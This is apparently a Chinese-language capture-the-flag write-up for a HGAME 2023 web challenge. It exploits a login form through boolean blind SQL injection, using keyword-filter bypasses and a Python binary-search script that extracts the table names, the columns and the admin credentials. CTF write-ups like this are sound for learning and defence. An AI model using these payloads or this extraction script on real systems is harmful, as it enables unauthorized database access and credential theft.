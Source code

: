 ![[Pasted image 20230208181804.png|500]]

```
/login
```

```
Username: testuser
Password: testpassword
```

![[Pasted image 20230208182845.png|500]]

```
/index
```

![[Pasted image 20230208183026.png|500]]

```
Username: 1'or/**/1#
Password: 
```

```
Success!
```

```
Username: 1'or/**/0^1#
Password: 
```

```
Failed!
```

存在布尔盲注

经过测试，过滤掉了这些东西

```
<space>
=
union
substr
and
mid
```

可以利用`left`和`right`函数的组合实现字符串的截取

```python
from requests import post
from sys import stdout

url = 'http://week-3.hgame.lwsec.cn:30056/login'
data = {'username': '', 'password': ''}

username = "1'or/**/{}>{}#"
password = ''

nth_ascii = 'ascii(right(left({},{}),1))'

success = lambda response: 'Success' in response.text

index = 0
while True:
    index += 1
    left = 0
    right = 127
    while left < right:
        mid = (left + right) // 2
        payload = data.copy()
        payload['username'] = username.format(
            nth_ascii.format('database()', index), mid
        )
        if success(post(url, payload)): # mid < nth_char
            left = mid + 1
        else:
            right = mid
    print(chr(left), end='')
    stdout.flush()
```

```
L0g1NMeeeee...
```

```python
payload['username'] = username.format(
	nth_ascii.format('(select(group_concat(table_name))from(information_schema.tables)where(table_schema)in(database()))', index), mid
)
```

```
User1nf0mAt1onnnnn...
```

```python
payload['username'] = username.format(
    nth_ascii.format("(select(group_concat(column_name))from(information_schema.columns)where(table_name)in('User1nf0mAt1on'))", index), mid
)
```

```
id,PAssw0rD,UsErN4meeeee...
```

```python
payload['username'] = username.format(
    nth_ascii.format("(select(group_concat(UsErN4me))from(User1nf0mAt1on))", index), mid
)
```

```
hgAmE2023HAppYnEwyEAr,testuserrrrr...
```

2023 happy new year~

```python
payload['username'] = username.format(
    nth_ascii.format("(select(group_concat(PAssw0rD))from(User1nf0mAt1on))", index), mid
)
```

```
WeLc0meT0hgAmE2023hAPPySql,testpassworddddd...
```

```
Username: hgAmE2023HAppYnEwyEAr
Password: WeLc0meT0hgAmE2023hAPPySql
```

```
Hello admin!
```

```
/home
```

![[Pasted image 20230208205128.png|500]]

#Web #SQL注入 #布尔盲注 #绕过 